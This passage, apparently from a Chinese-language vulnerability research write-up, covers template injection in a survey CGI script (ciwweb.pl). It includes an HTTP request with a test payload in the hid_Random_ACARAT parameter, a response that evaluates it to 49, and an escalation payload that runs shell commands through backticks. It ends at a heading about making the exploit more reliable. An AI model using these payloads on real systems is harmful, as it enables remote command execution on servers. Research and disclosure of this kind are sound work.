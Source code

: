   
变量包含了整个页面的 HTML 源码。这种处理方式明显不安全，我们很快就在示例目标中附加了 
```
?hid_Random_ACARAT=[%257*7%25]
```

  
参数进行测试：  

```
GET /ExampleSurvey/cgi-bin/ciwweb.pl?hid_javascript=1&hid_Random_ACARAT=[%257*7%25] HTTP/2
Host: example.com
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br


...


HTTP/2 200 OK
Date: Thu, 17 Apr 2025 01:20:43 GMT
Content-Type: text/html


...


<input type=&#34;hidden&#34; name=&#34;hid_javascript&#34; value=&#34;0&#34;>
<input type=&#34;hidden&#34; name=&#34;hid_previous&#34; value=&#34;0&#34;>
<input type=&#34;hidden&#34; id=&#34;hid_screenwidth&#34; name=&#34;hid_screenwidth&#34; value=&#34;0&#34;>


<input type=&#34;hidden&#34; name=&#34;hid_Random_ACARAT&#34; value=&#34;49&#34;>


<input type=&#34;hidden&#34; name=&#34;hid_show_prev&#34; value=&#34;1&#34;>
<div class=&#34;page_header font_primary_color&#34;>


...
```

  
成功！我们可以轻松地通过在反引号中传递命令来升级此漏洞，使用：  

```
[% %60ls%60 %]
```

  
注意：由于博客格式限制，上面的反引号进行了 URL 编码。  
## 使漏洞利用更可靠  
  